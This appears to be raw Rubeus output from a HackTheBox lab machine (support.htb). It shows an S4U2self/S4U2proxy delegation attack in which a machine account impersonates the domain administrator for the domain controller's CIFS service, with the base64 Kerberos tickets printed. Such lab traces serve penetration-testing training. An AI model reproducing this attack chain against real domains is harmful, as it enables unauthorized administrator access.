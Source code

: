         qhEAnj9rMmwRCsSOPzUTm47Z+vTA0c3atbvAsOH2tEsTUlfVVuEsw6p0M/NcPcKYPiMGjm++dTBEesWM
        H182DTeZDp/1gdd231MNOheuYJ8xK06p4BnBxhyklZSjPVykuHVP9EqCrue3ZdPfQFQZhcaUXepYVJMH
        EWEn6qOB0TCBzqADAgEAooHGBIHDfYHAMIG9oIG6MIG3MIG0oBswGaADAgEXoRIEEIA/CTk918hj+G0P
        f0zbfAihDRsLU1VQUE9SVC5IVEKiEzARoAMCAQGhCjAIGwZvc21hbiSjBwMFAEDhAAClERgPMjAyNDEy
        MjAxMzAxMThaphEYDzIwMjQxMjIwMjMwMTE4WqcRGA8yMDI0MTIyNzEzMDExOFqoDRsLU1VQUE9SVC5I
        VEKpIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC3N1cHBvcnQuaHRi


    [*] Action: S4U

    [*] Building S4U2self request for: 'osman$@SUPPORT.HTB'
    [*] Using domain controller: dc.support.htb (::1)
    [*] Sending S4U2self request to ::1:88
    [+] S4U2self success!
    [*] Got a TGS for 'administrator' to 'osman$@SUPPORT.HTB'
    [*] base64(ticket.kirbi):

        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
        bWFuJA==

    [*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
    [*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
    [*] Using domain controller: dc.support.htb (::1)
    [*] Sending S4U2proxy request to domain controller ::1:88
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

        doIGYDCCBlygAwIBBaEDAgEWooIFcjCCBW5hggVqMIIFZqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
        AgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGKjggUrMIIFJ6ADAgESoQMCAQaiggUZBIIFFUzzMSgq
        jKwQe8cPmbib4/RIrmxJBhaTPgPN6p+RwqecsoEOv5T8HYz4PJCDdVJix627oRrj+f/roLYdnLKjne1o
        +40pTngyjFj0/rreKDvgQ9nD9e0sAg+1m7m64iWHm5b/ZaUUOckMkmFDBbiaNqFy9peBv29clCIFj9RJ
        I+8WS0E1VwaLHGv4FKdQBMkVAy8gg9ZgTsRHihr8oLxId+YzR0cOhTQUuA+8Ru4NtPcEEbsYtifi6Kdh
        XMCkndewLBcTtTvwjJu4eKf3tFGNzllAnKkc25mWg6krDF3cYB0Z+sGwAOYLbNyO3M2/vq67zHw3b/oN
        NdwXqDaCI7F6m7Z945tf+cIllaoRUku1gufoEvpIZL6V/4QFgahL0tsMdtbX/pu5tRA9CDWXUnYO4cNJ
        7P6GowCSbc4cB4si7C/BynyxFVyNE7kBYfJm18Kff9PJVLegRczAL9LlmaS7tDJPe4iBCNcwkZYBeS1D
        /OGo859V8yZcrdAKMREkg5sHUrfBV1EI64yBtRE3eZuyef0SCdFETowxqBxIzcjOSGLUC+pe0U+fe3Fd
        Id4vcp9klL1pOYtod+ndScmTkYvw/5NwBUDynK+Ob3WbI8FberlNRnWSeCj9cqj1pzw/zJoxEhiau3Vt
        IYOaG+BbSp3EMMuawoYpYjKhmyXO1C4g+ylX9CwH1PAwIsaNa722DRq+dQ35jVtrAerBBUZpn6B0LhQK
        Gor3pwt1jSKbYEN5REVNvF7vv1rZns4imCSj/vRJVJPKiHu3fXoQztTEeHSiOA1KhywDqhiBtUkFdPJp
        CB8GxkcIeXLmzSn4OPHEdirT1i5MAW3+/Oeo68tD9208A6hJq8XvVNVOZUafXvDKgtPxg7kjkUjY4U1P
        XW7GsT8OwqvzQKQXFra9PHOS4G8svmxOi0ftrL06FtP+W4jj3xMI/3jYKmNeFd1YGePQzett+nReWQCD
        CV15CODpDMcIUjhwYkDfQZC6cKT5rkg0J/IIHLEsITjAkuSDlWSzPM/F31TzHf9g85R2jqcOt5EgTiGu
        xpQXuNHUxFCC5bpEW0K9086TtjB0tsEa7BjR7DEW5gzWzZLQVdLGsFPkOqpIIga7H1/MRz3jNMUO5yCr
